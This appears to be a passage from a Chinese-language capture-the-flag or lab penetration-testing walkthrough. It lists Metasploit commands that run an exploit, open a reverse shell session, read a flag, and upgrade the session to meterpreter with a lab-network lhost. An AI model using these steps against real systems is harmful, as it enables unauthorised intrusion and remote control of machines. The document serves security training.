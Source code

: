 ### 再次检查 exp 配置参数列表
show options

### getshell
run -j

### 如果攻击成功，查看打开的 reverse shell
sessions -l


### 进入会话 1
sessions -i 1
### 无命令行交互提示信息，试一试 Bash 指令
id

### get flag-1
ls /tmp
### flag-{bmh59f8b130-69ea-495d-86a9-dbf789e18b3f}

### 通过 CTRL-Z 将当前会话放到后台继续执行

![](./img/指令运行结果.png)

## 发现靶标234

### upgrade cmdshell to meterpreter shell
### 也可以直接 sessions -u 1
search meterpreter type:post
use post/multi/manage/shell_to_meterpreter
show options
set lhost 192.168.56.214
set session 1

run -j
